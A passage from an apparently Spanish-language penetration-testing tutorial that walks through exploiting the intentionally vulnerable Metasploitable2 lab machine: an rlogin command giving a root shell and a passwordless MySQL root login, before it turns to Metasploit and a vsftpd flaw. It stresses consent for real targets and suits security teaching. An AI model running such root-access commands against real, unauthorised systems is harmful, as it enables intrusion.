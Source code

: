 Una de las cosas importantes a resaltar es que, en el caso de estar probando exploits en la máquina de una persona real, esta debe saber previamente que se van a realizar estos ataques. Por ejemplo, en el caso de realizar un `backdoor` a una computadora, el dueño debe saber que se va a realizar dicha acción con el fin de evitar posibles inconvenientes.

#### Explotación Simple

Los primeros exploits que podemos realizar, en orden de complejidad, son los exploits simples. Estos, en términos generales, se refiere a exploits los cuales no requieren un script o ejecuciones más allá de una pantalla de inicio de sesión o un único comando. Este tipo de exploits se refiere principalmente a `backdoors` de fácil acceso o simplemente abusando de errores de configuración.

Recordando la backdoor encontrada en la máquina de Metasploitable2, podemos explotar esta con un simple comando de inicio de sesión.

```sh
# Nos conectamos a la máquina con privilegios de `root`
$ rlogin -l root 192.168.0.17

# Preguntamos en que usuario estamos
root@metasploitable:~\# whoami
# root
```

Tras un breve momento, tendremos una terminal con permisos de `root` cuando no deberíamos tenerlo. Hemos realizado nuestro primer exploit.

Recordando que la vulnerabilidad detectada respecto a la mala configuración de la base de datos de `MySQL`, podemos probar el ingresar a este de la misma manera.

```sh
# Se realiza la conexión a la base de datos
$ mysql -u root -p -h 192.168.0.17

# Preguntamos quienes somos
MySQL [(none)]> select current_user();
# +----------------+
# | current_user() |
# +----------------+
# | root@%         |
# +----------------+
```

Como podemos ver, nuevamente tenemos acceso y a nivel de `root` sin problema alguno.

#### Metasploit Framework

Una de las opciones principales en cuento a la realización de exploits más avanzados está en el usar un framework de seguridad como lo es Metasploit. Esta herramienta tiene una alta funcionalidad que va desde escaneres hasta los mismos exploits usadas durante el PenTesting.

Ahora, durante la fase de identificación de vulnerabilidades, `Nessus` reportó la presencia de una vulnerabilidad relacionada con la versión de `vsftpd`.

<p align="center">
